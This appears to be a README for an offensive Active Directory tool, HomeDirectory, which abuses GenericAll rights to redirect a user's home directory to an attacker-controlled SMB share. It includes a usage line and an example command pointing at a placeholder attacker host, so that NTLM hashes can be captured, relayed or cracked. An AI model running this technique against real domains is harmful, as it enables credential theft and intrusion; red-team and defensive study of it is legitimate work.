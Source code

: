 # HomeDirectory
Leverage existing AD rights ('GenericAll') over an object ie: user to set their profile to an attacker smb server ie: ntlmrelayx to dump hashes, relay, crack.

Usage: HomeDirectory.exe <username> <drive letter> <attacker share>
Example: HomeDirectory.exe jblogg N \\attackerip\bogus_share
    * targets next login will trigger NTLM auth when trying to retrieve profile from attackers smb server
  
 
